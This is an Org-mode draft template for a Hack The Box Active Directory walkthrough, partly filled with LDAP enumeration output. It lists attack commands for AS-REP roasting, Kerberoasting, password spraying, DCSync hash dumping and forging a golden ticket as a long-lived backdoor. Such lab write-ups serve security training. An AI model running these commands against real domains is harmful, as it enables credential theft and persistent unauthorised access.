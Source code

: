 #+filetags: :Box:HTB:Easy:Windows:LDAP:ActiveDirectory:
#+HUGO_BASE_DIR: ~/Dropbox/40-49_Career/44-Blog/bloodstiller
#+HUGO_SECTION:
#+hugo_custom_front_matter: :draft true
#+hugo_custom_front_matter: :title "<bx> HTB Walkthrough"
#+hugo_custom_front_matter: :author bloodstiller
#+hugo_custom_front_matter: :date 2024-10-10
:HIDDEN:
#+STARTUP: overview
#+STARTUP: hidestars
#+STARTUP: indent
#+STARTUP: entitiespretty
#+STARTUP: inlineimages
#+OPTIONS: H:4 toc:nil num:nil \n:nil ':nil *:t -:t ::t <:t ^:{} _:{} |:t f:t d:nil
#+OPTIONS: tex:mathjax tags:not-in-toc tasks:t title:nil
#+COLUMNS: %80ITEM %TAGS %TODO %SCHEDULED
#+TODO: TODO(t) IN-PROGRESS(i) NOTES(m) RABBITHOLE!(R) | DONE(d!) HOLD(h) WONT-DO(n)
:END:


* <bx> Hack The Box Walkthrough/Writeup:
:PROPERTIES:
:ID:       e3f25c99-179f-461d-9310-dd1f026d4ec1
:END:
- https://app.hackthebox.com/machines/<bx>

* How I use variables & Wordlists:
:PROPERTIES:
:ID:       807d55ef-43ab-462f-9307-7d03330b72d2
:END:
- *Variables*:
  - In my commands you are going to see me use ~$box~, ~$user~, ~$hash~, ~$domain~, ~$pass~ often.
    - I find the easiest way to eliminate type-os & to streamline my process it is easier to store important information in variables & aliases.
      - ~$box~ = The IP of the box
      - ~$pass~ = Passwords I have access to.
      - ~$user~ = current user I am enumerating with.
        - Depending on where I am in the process this can change if I move laterally.
      - ~$domain~ = the domain name e.g. ~sugarape.local~ or ~contoso.local~
      - ~$machine~ = the machine name e.g. ~DC01~
    - Why am I telling you this? People of all different levels read these writeups/walktrhoughs and I want to make it as easy as possible for people to follow along and take in valuable information.

- *Wordlists*:

  - I have symlinks all setup so I can get to my passwords from ~~/Wordlists~ so if you see me using that path that's why. If you are on Kali and following on, you will need to go to ~/usr/share/wordlists~
    - I also use these additional wordlists:
      - [[https://github.com/insidetrust/statistically-likely-usernames][Statistically-likely-usernames]]
      - [[https://github.com/danielmiessler/SecLists][SecLists]]
      - [[https://github.com/carlospolop/Auto_Wordlists][Auto_Wordlists]]
* 1. Enumeration:
:PROPERTIES:
:ID:       df114f61-f09f-46bc-a9d0-e1e62bf4d249
:END:
** Assumed Breach Box:
:PROPERTIES:
:ID:       8fdc027e-d7a4-4f54-9c83-4b9d26aa1453
:END:
- This box scenario assumes that the Active Directory (AD) environment has already been breached and that we have access to valid credentials.
- This approach reflects a more realistic model, given that direct breaches of AD environments from external footholds are increasingly rare today.
- +Note+:
  - Even with assumed credentials, I’ll still conduct my standard enumeration process as if I don’t have them.
    - This ensures I don’t overlook any findings just because access is available.
    - Comprehensive documentation of all discoveries remains essential.
** NMAP:
:PROPERTIES:
:ID:       0d42892c-fad3-4440-834b-6ebf6c6f41c3
:END:
*** Basic Scans:
:PROPERTIES:
:ID:       13dd3494-95f0-4c4b-b6b8-85ce11fff991
:END:
+ *Basic TCP Scan*:
  - ~nmap $box -Pn -oA TCPbasicScan~
    #+begin_src shell

    #+end_src
  - *Initial thoughts*:

+ *Basic UDP Scan*:
  - ~sudo nmap $box -sU -Pn -oA UDPbasicScan~
#+begin_src shell

#+end_src
  - *Initial thoughts*:

*** Comprehensive Scans:
:PROPERTIES:
:ID:       38e2ad58-d516-494e-bb6e-0003582ce978
:END:
+ *In depth scan TCP*:
  - ~sudo nmap -p- -sV -sC -O -Pn --disable-arp-ping $box -oA FullTCP~
  #+begin_src shell

  #+end_src
  - *Findings*:

+ *In depth scan UDP*:
  - ~sudo nmap -p- -sU -sV -sC -O -Pn --disable-arp-ping $box -oA FullTCP~
  #+begin_src shell

  #+end_src
  - *Findings*:

** LDAP ~389~:
:PROPERTIES:
:ID:       6a27f462-51f8-437a-9357-004faa093013
:END:
*** Using LDAP anonymous bind to enumerate further:
:PROPERTIES:
:ID:       558ffa34-2558-47bc-8f37-e1674d74d810
:END:
- If you are unsure of what anonymous bind does. It enables us to query for domain information anonymously, e.g. without passing credentials.
  - We can actually retrieve a significant amount of information via anonymous bind such as:
    - A list of all users
    - A list of all groups
    - A list of all computers.
    - User account attributes.
    - The domain password policy.
    - Enumerate users who are susceptible to AS-REPRoasting.
    - Passwords stored in the description fields
  - The added benefit of using ldap to perform these queries is that these are most likely not going to trigger any sort of AV etc as ldap is how AD communicates.

- I actually have a handy script to check if anonymous bind is enabled & if it is to dump a large amount of information. You can find it here
  - https://github.com/bloodstiller/ldapire
  - https://bloodstiller.com/cheatsheets/ldap-cheatsheet/#ldap-boxes-on-htb
    - ~python3 /home/kali/windowsTools/enumeration/ldapire.py $box~
      - It will dump general information & also detailed & simple information including:
        - Groups
        - Computers
        - Users
        - All domain objects
        - A file containing all description fields
        - It will also search the domain for any service/svc accounts and place them in a folder too.


  A) _We have the naming context of the domain_:
       #+begin_src shell
kali in HTB/BlogEntriesMade/Forest/scans/ldap  🍣 main 📝 ×143🗃️  ×3🛤️  ×113 1GiB/7GiB | 0B/1GiB with /usr/bin/zsh
🕙 08:32:01 zsh ❯ python3 /home/kali/windowsTools/enumeration/ldapire/ldapire.py $box

------------------------------------------------------------
 Server Information
------------------------------------------------------------
  • IP Address  : 10.129.95.210
  • Domain Name : htb.local
  • Server Name : FOREST
  • Forest Level: 7
  • Domain Level: 7

    #+END_SRC

- It turns out the anonymous bind is (+NOT+) enabled and we get the below information.

  #+begin_src shell
------------------------------------------------------------
 Connection Attempts
------------------------------------------------------------
  • Attempting SSL connection...
  ✗ Failed to connect with SSL
  • Attempting non-SSL connection...
  ✓ Connected successfully using anonymous bind

------------------------------------------------------------
 Security Warning
------------------------------------------------------------
  ⚠️  WARNING: Connected using Anonymous Bind
  ⚠️  This is a security risk and should be disabled
  #+end_src

  B) _We have the domain functionality level_:
      #+begin_src shell
  • Forest Level: 7
  • Domain Level: 7
      #+end_src
     - The functionality level determines the minimum version of Windows server that can be used for a DC.
       - +Note+: that any host os can be used on *workstations*, however the functionality level determines what the minimum version for DC's and the forest.
       - https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/active-directory-functional-levels
       - Knowing the function level is useful as if want to target the DC's and servers, we can know by looking at the function level what the minimum level of OS would be.

       - In this case we can see it is level 7 which means that this server has to be running Windows Server 2016 or newer.
       - Here’s a list of functional level numbers and their corresponding Windows Server operating systems:

         | Functional Level Number | Corresponding OS            |
         |                       0 | Windows 2000                |
         |                       1 | Windows Server 2003 Interim |
         |                       2 | Windows Server 2003         |
         |                       3 | Windows Server 2008         |
         |                       4 | Windows Server 2008 R2      |
         |                       5 | Windows Server 2012         |
         |                       6 | Windows Server 2012 R2      |
         |                       7 | Windows Server 2016         |
         |                       8 | Windows Server 2019         |
         |                       9 | Windows Server 2022         |

         - +Note+:
           - Each number corresponds to the minimum Windows Server version required for domain controllers in the domain or forest.
           - As the functional level increases, additional Active Directory features become available, but older versions of Windows Server may not be supported as domain controllers.

  C) _We have the full server name & domain name_:
       #+begin_src shell
------------------------------------------------------------
 Server Information
------------------------------------------------------------
  • IP Address  : 10.129.95.210
  • Domain Name : htb.local
  • Server Name : FOREST
       #+end_src
- It's pretty amazing already what we have learned just by running some fairly simple ldap queries.
  + We have the naming context.
  + Domain name.

- The script also has created several files with various amounts on information lets examine those.
  #+begin_src shell
------------------------------------------------------------
 Processing Users
------------------------------------------------------------
[+] Detailed results written to UsersDetailed.txt
[+] Basic names written to Users.txt
  ✓ Basic user names    → Users.txt
  ✓ Detailed user info  → UsersDetailed.txt

------------------------------------------------------------
 Processing Groups
------------------------------------------------------------
[+] Groups written to GroupsDetailed.txt
[+] Basic names written to Groups.txt
  ✓ Basic group names   → Groups.txt
  ✓ Detailed group info → GroupsDetailed.txt

------------------------------------------------------------
 Processing Computers
------------------------------------------------------------
[+] Computers written to ComputersDetailed.txt
[+] Basic names written to Computers.txt
  ✓ Basic computer names    → Computers.txt
  ✓ Detailed computer info  → ComputersDetailed.txt

------------------------------------------------------------
 Processing All Objects
------------------------------------------------------------
[+] Detailed results written to ObjectsDetailedLdap.txt
[+] Basic names written to Objects.txt
  ✓ Basic object names     → Objects.txt
  ✓ Detailed object info   → ObjectsDetailedLdap.txt

------------------------------------------------------------
 Processing Descriptions
------------------------------------------------------------
[+] All descriptions written to AllObjectDescriptions.txt
  ✓ All object descriptions → AllObjectDescriptions.txt
  #+end_src

It will also check for any service accounts and write them to a file:
#+begin_src shell
-----------------------------------------------------------
 Searching for Service Accounts
------------------------------------------------------------
  🔍 Searching Users.txt
  - No matches in Users.txt
  🔍 Searching UsersDetailed.txt
  ✓ Found matches in UsersDetailed.txt
  🔍 Searching Groups.txt
  ✓ Found matches in Groups.txt
  🔍 Searching GroupsDetailed.txt
  ✓ Found matches in GroupsDetailed.txt
  🔍 Searching Objects.txt
  ✓ Found matches in Objects.txt
  🔍 Searching ObjectsDetailedLdap.txt
  ✓ Found matches in ObjectsDetailedLdap.txt
  🔍 Searching AllObjectDescriptions.txt
  ✓ Found matches in AllObjectDescriptions.txt

  ✓ Service account findings written to ServiceAccounts.txt
  ✓ Found 646 potential matches

#+end_src

*** Checking the objects file:
:PROPERTIES:
:ID:       0077a4d6-6b97-4478-880f-6755a72bdcf8
:END:

*** Searching the descriptions file for any passwords:
:PROPERTIES:
:ID:       a96cef40-b1e9-4c49-870c-6cf2a94db795
:END:

*** Checking the users file:
:PROPERTIES:
:ID:       f7356e49-b6c1-496f-8ae3-497c114b0469
:END:

*** Finding an unlisted service account svc-alfresco:
:PROPERTIES:
:ID:       41c9ab86-d11f-4e08-848f-2a2c1bf9adad
:END:
*** Updating ETC/HOSTS & Variables:
:PROPERTIES:
:ID:       70c39e1a-91a2-4102-898c-d195b5b42155
:END:
- *Updated Domain & Machine Variables for Testing*:
  - Now that I have this information, I can update the ~domain~ and ~machine~ variables used in tests:
    - ~update_var domain "htb.local"~
    - ~update_var machine "forest"~

- *Updating* ~/etc/hosts~ *for DNS and LDAP Queries*:
  - I update my ~/etc/hosts~ file to enable tools like [[https://github.com/ropnop/kerbrute][kerbrute]] for user enumeration and other tools that require DNS or LDAP for queries:
    - ~echo "$box   $domain $machine.$domain" | sudo tee -a /etc/hosts~

*** Syncing Clocks for Kerberos Exploitation:
:PROPERTIES:
:ID:       d2509b2d-ec58-4483-9d01-3915d8957dc8
:END:
- Since Kerberos is enabled on this host, it's best practice to sync our clock with the host’s. This helps avoid issues from clock misalignment, which can cause false negatives in Kerberos exploitation attempts.
  - ~sudo ntpdate -s $domain~
  - +Note+: I am doing this now as we have the DNS name etc.

** DNS ~53~:
:PROPERTIES:
:ID:       72e6c6aa-a991-4b59-8a1d-9c1967f71edb
:END:
- *Using dnsenum to enumerate DNS entries*:
  - ~dnsenum -r --dnsserver $box --enum -p 0 -s 0 -f ~/Wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt $domain~
** Kerberos ~88~:
:PROPERTIES:
:ID:       1a19d7f9-b46c-44e4-902f-dbeb85742df5
:END:
*** Using [[https://github.com/ropnop/kerbrute][Kerbrute]] to bruteforce Usernames:
:PROPERTIES:
:ID:       e9be28c8-168a-48a0-8bc2-f467a8ae3ed8
:END:
- As kerberos is present we can enumerate users using [[https://github.com/ropnop/kerbrute][kerbrute]]:
  - ~kerbrute userenum -d $domain --dc $box ~/Wordlists/statistically-likely-usernames/jsmith.txt~

*** Using netexec for ASReproasting:
:PROPERTIES:
:ID:       b16a1594-64e3-42e9-ae39-168baab3c1b9
:END:
- *We should always try and asreproast with a null/guest session as it can lead to an easy win*:
  - ~netexec ldap $box -u '' -p '' --asreproast asrep.txt~
  - ~netexec ldap $box -u guest -p '' --asreproast asrep.txt~
  - ~impacket-GetNPUsers $domain/ -request~
    - This one will just work, without having to pass anything else.

  - ~impacket-GetNPUsers $domain/ -dc-ip $box -usersfile Users.txt -format hashcat -outputfile asRepHashes.txt -no-pass~
*** Using netexec for Kerberoasting:
:PROPERTIES:
:ID:       9c9985bd-717a-48a9-b628-ce8633a5acba
:END:
- *As we have creds we can kerberoast*:
  - ~netexec ldap $box -u $user -p $pass --kerberoast kerb.txt~
** SMB ~445~:
:PROPERTIES:
:ID:       4f2c7ccb-eaa6-4a32-95c4-87545fd949d6
:END:
*** Attempting to connect with NULL & Guest sessions:
:PROPERTIES:
:ID:       fc63ee15-d711-4a53-818d-b4138791f6e4
:END:
- *This is a standard check I always try as alot of the time the guest account or null sessions can lead to a foothold*:
  - ~netexec smb $box -u 'guest' -p '' --shares~
  - ~netexec smb $box -u '' -p '' --shares~
- +Note+: We can see the build number is +Insert-Build+ We can now enumerate that.

*** Trying Usernames as Passwords:
:PROPERTIES:
:ID:       51b5cc92-1537-42c7-9e51-a41685758ef6
:END:
- *I always try usernames as passwords as well*:
  - ~netexec smb $box -u Users.txt -p Users.txt --shares --continue-on-success | grep [+]~
*** Using smbclient:
:PROPERTIES:
:ID:       57c70b81-c003-468c-954f-add9c67c22fb
:END:
- ~smbclient -U 'guest' "\\\\$box\\<share>"~
*** Enumerating Users with Impacket-lookupsid:
:PROPERTIES:
:ID:       edf3f6be-05e3-4dcf-ab38-7b228174cd29
:END:
- *We can use* ~impacket-lookupsid~ *to enumerate users on the domain*:
  - ~impacket-lookupsid $domain/guest@$machine.$domain -domain-sids~
  - ~impacket-lookupsid guest@$box -domain-sids -no-pass~
  - +Note+: As we are using the "Guest" account we can just hit enter for a blank password

** Searching for known vulnerabilities for the Windows Build number:
:PROPERTIES:
:ID:       0991a49e-2991-42c8-b77c-d903ac1cbd62
:END:
- As we were able to retrive the build number from netexec we can enumerate for known vulnerablities.

** Web ~80~:
:PROPERTIES:
:ID:       d4efb869-5997-4ab8-8e37-f60f433f7e95
:END:
- *Web Enumeration via Burp Suite*:
  - When enumerating a website, always use Burp Suite. This allows you to:
  - Record all potential injection points.
  - Capture relevant responses for each request, making it easier to analyze vulnerabilities and track your testing progress.
*** Enumerating Injection Points:
:PROPERTIES:
:ID:       1c3b10db-c43e-40bd-a27c-fbd91296b3fa
:END:
*** Dirbusting the webserver using ffuf:
:PROPERTIES:
:ID:       2662f823-d569-4552-8ed3-e48978b5dedb
:END:
- *I Perform some directory busting to see if there are any interesting directories*:
  - ~ffuf -w ~/Wordlists/seclists/Discovery/Web-Content/raft-large-directories.txt -u http://$box/FUZZ -fc 403 -ic~
** RPC:
:PROPERTIES:
:ID:       224bdc39-b44b-4c8c-a54b-128716a6f5fa
:END:
- *As we have valid credentials we can also connect to RPC to enumerate further*:
  - ~rpcclient -U $user $box~
- +Cheatsheet+: I have an enumeration & attacking cheatsheet for RPC, available here:
  - https://bloodstiller.com/cheatsheets/rpc-cheatsheet/#enumerating-rpc-using-rpcclient

- *Null session via RPC*:
  - Much like SMB you can also connect to RPC via null & guest sessions, let's see if they are valid here:
    - ~rpcclient -U "" $box~
    - ~rpcclient -U '%' $box~
*** Enumerating domain users via RPC:
:PROPERTIES:
:ID:       5f636d7c-754a-4422-86e5-d2c6f29cd141
:END:
- *We can enumerate all the users of the domain via RPC*:
  - ~enumdomusers~

- *Querying individual users*:
  - Once we have the RID's as displayed above we can enumerate each user further. This is useful to discover if they have anything interesting in their "Description fields etc"
  - ~queryuser [RID]~
*** Enumerating groups via RPC:
:PROPERTIES:
:ID:       7f587aa4-d279-42fb-a234-707b295df4ed
:END:
- *We can also enumerate groups*:
  - ~enumdomgroups~

- *Querying individual groups*:
  - Once we have the RID's as displayed above we can enumerate each group further. Just like we did with users.
  - ~querygroup [RID]~
* 2. Foothold:
:PROPERTIES:
:ID:       12cad379-c0d0-4c07-8b2c-28440c2582cf
:END:
1.
* 3. Privilege Escalation:
:PROPERTIES:
:ID:       d9e6b559-a369-42b5-92da-4ccd104efb1c
:END:
1.
* 4. Persistence:
:PROPERTIES:
:ID:       37a8061a-df18-452e-a13a-025297fb661f
:END:
** Dumping NTDS.dit/DCSync attack:
:PROPERTIES:
:ID:       43858f16-d1b9-48be-a790-bfbd13b17275
:END:
- *Perform DCSync attack using netexec*:
  - ~netexec smb $box -u $user -p $pass -M ntdsutil~

- *Extract all hashes from netexec*
  - ~for file in /home/kali/.nxc/logs/*.ntds; do cat "$file" | cut -d ':' -f1,2,4 --output-delimiter=' ' | awk '{print $3, $2, $1}'; printf '\n'; done~

** Creating a Kerberos Golden Ticket:
:PROPERTIES:
:ID:       7e540f36-bd29-450a-a2af-b11be5822f4d
:END:

+ *Using* ~impacket-lookupsid~ *to get the Search for the Domain SID*:
  - ~impacket-lookupsid $domain/$user@$machine.$domain -domain-sids~

+ *Using* ~impacket-secretsdump~ *to retrieve the aeskey*:
  - ~impacket-secretsdump $domain/$user:$pass@$box~
  - ~impacket-secretsdump $domain/$user@$box -hashes :$hash~
  - ~impacket-secretsdump $domain/$user:$pass@$box~


+ *Sync our clock to the host using ntpdate*:
  - ~sudo ntpdate -s $domain~
  - ~faketime "$(ntpdate -q $domain | cut -d ' ' -f 1,2)"~

+ *Using* ~impacket-ticketer~ *to create the Golden Ticket*:
  - ~impacket-ticketer -nthash $krbtgt -domain-sid $sid -domain $domain Administrator~
  - ~impacket-ticketer -aesKey $krbtgt -domain-sid $sid -domain $domain Administrator~

+ *Export the ticket to the* ~KRB5CCNAME~ *Variable*:
  - ~export KRB5CCNAME=./Administrator.ccache~

+ *Use the ticket for connecting via* ~psexec~
  - ~impacket-psexec -k -no-pass $machine.$domain~

*** Why create a golden ticket?
:PROPERTIES:
:ID:       5a887352-90e5-435b-9d34-06b32b32d0a5
:END:
- "But bloodstiller why are you making a golden ticket if you have the admin hash?" Glad you asked:
  - Creating a Golden Ticket during an engagement is a reliable way to maintain access over the long haul. Here’s why:
  - ~KRBTGT~ *Hash Dependence*:
    - Golden Tickets are generated using the ~KRBTGT~ account hash from the target’s domain controller.
    - Unlike user account passwords, ~KRBTGT~ hashes are rarely rotated (and in many organizations, they are never changed), so the Golden Ticket remains valid indefinitely.
  - ~KRBTGT~ *Hash—The Key to It All (for upto 10 years)*:
    - A Golden Ticket can allow you to maintain access to a system for up to 10 years (yeah, you read that right the default lifespan of a golden ticket is 10 years) without needing additional credentials.
    - This makes it a reliable backdoor, especially if re-access is needed long after initial entry.
    - *Think about it*: even if they reset every user’s password (including the administrator etc) your Golden Ticket is still valid because it’s tied to the ~KRBTGT~ account, not individual users.
* Lessons Learned:
:PROPERTIES:
:ID:       2c027237-8833-4750-a7e7-4282b86b6b75
:END:
** What did I learn?
:PROPERTIES:
:ID:       6fe78ec6-f538-4653-a4de-987388927bb7
:END:
  1.
  2.
  3.
** What silly mistakes did I make?
:PROPERTIES:
:ID:       9c617b79-9173-496c-a4eb-7d43fb807aee
:END:
  1.
  2.

* Sign off:
:PROPERTIES:
:ID:       52ccdf4f-ff0e-405d-aa9b-42ea204b741b
:END:

Remember, folks as always: with great power comes great pwnage. Use this knowledge wisely, and always stay on the right side of the law!

Until next time, hack the planet!

-- Bloodstiller

-- Get in touch bloodstiller at proton dot me

* +CREDS+:
:PROPERTIES:
:ID:       6c2b5bb7-14bf-4c0d-8b05-2f25e346f0c6
:END:
** Compiled Usernames, Passwords & Hashes:
:PROPERTIES:
:ID:       4f5a86e1-5b54-49c8-a9be-b5e20e3f63bd
:END:
*** Usernames:
:PROPERTIES:
:header-args: :tangle Users.txt :mkdirp yes :perms
:ID:       70c0d96c-a165-436a-984f-d6c3518b9eaf
:END:
#+begin_src text
Administrator
Guest
Root
krbtgt
Admin
#+end_src

*** Passwords:
:PROPERTIES:
:header-args: :tangle Passwords.txt :mkdirp yes :perms
:ID:       15f28104-49ee-43ab-8b58-599d79233039
:END:
#+begin_src text

#+end_src

*** Email Names:
:PROPERTIES:
:header-args: :tangle Emails.txt :mkdirp yes :perms
:ID:       6f5c0eaa-5976-4347-874e-399a302eed66
:END:

#+begin_src text
#+end_src
*** Username & Pass:
:PROPERTIES:
:ID:       c1b57e7a-7037-43ab-9082-4f173be9323f
:END:
#+begin_src text

#+end_src


*** Hashes:
:PROPERTIES:
:header-args: :tangle Hashes.txt :mkdirp yes :perms
:ID:       efdd9b2b-1a20-40d7-b99c-eac4b22b1f0a
:END:
- *Extract all hashes from netexec*
  - *Extract only enabled hashes*:
    - ~grep -iv disabled /home/kali/.nxc/logs/*.ntds | cut -d ':' -f2,5 --output-delimiter=' ' | awk '{print $2, $1}'~
  - *Extract all hashes*
    - ~cat /home/kali/.nxc/logs/*.ntds | cut -d ':' -f1,2,4 --output-delimiter=' ' | awk '{print $3, $2, $1}'~
    - +Note+: We need to include disabled hashes to get the krbtgt hash in this method as that account is disabled by default.

#+begin_src text

#+end_src

** SSH Keys:
:PROPERTIES:
:ID:       a7494955-ab6b-4500-8d5d-e3fb9ef341bf
:END:
